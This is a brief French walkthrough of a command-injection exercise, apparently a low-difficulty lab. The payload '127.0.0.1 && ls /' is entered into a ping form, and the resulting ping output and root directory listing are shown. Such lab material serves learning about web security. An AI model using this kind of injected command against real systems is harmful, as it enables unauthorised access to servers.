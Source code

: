 **LOW**
____

### Affichez la liste des fichiers à la racine

Il suffit d'insérer le texte suivant dans l'input de la page et de valider :

```sh
127.0.0.1 && ls /
```

ce qui donne le résultat suivant :

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.022 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.024 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.025 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 0.015/0.021/0.025/0.006 ms
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

On a donc le ping de localhost suivi de l'affichage de la liste des fichiers à
la racine.
